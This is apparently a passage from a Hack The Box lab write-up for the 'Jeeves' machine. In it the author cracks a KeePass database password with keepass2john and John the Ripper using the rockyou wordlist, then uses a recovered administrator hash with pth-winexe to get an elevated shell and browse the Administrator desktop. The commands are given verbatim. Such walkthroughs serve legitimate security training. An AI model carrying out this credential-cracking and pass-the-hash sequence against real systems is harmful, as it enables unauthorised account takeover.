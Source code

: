 Now that I have that, I need to be able to crack it's password.  I do that with John, after prepping the file.

```
(kali㉿kali)-$ ls
CEH.kdbx
                                                                                                                                    
(kali㉿kali)-$ keepass2john CEH.kdbx > CEHtohack
                                                                                                                                    
(kali㉿kali)-$ ls
CEH.kdbx  CEHtohack
```

Using the following command, I was able to get this password extracted.

`john CEHtohack -w:/usr/share/wordlists/rockyou.txt`

![John Output](\Images\HTB4Jeeves\pic8.png)

Then go install KeePass on my device and use the extracted password to open the keepass db.  And wouldn't you know it, there's an administrator password hash in there.  Grab that use it along with `pth-winexe` in order to get an elevated connection to the device.

![Elevated](\Images\HTB4Jeeves\pic9.png)

```
C:\Users\Administrator>cd desktop
cd desktop

C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 71A1-6FA1

 Directory of C:\Users\Administrator\Desktop

11/08/2017  10:05 AM    <DIR>          .
11/08/2017  10:05 AM    <DIR>          ..
12/24/2017  03:51 AM                36 hm.txt
11/08/2017  10:05 AM               797 Windows 10 Update Assistant.lnk
               2 File(s)            833 bytes
               2 Dir(s)   2,650,607,616 bytes free

C:\Users\Administrator\Desktop>type hm.txt
type hm.txt
```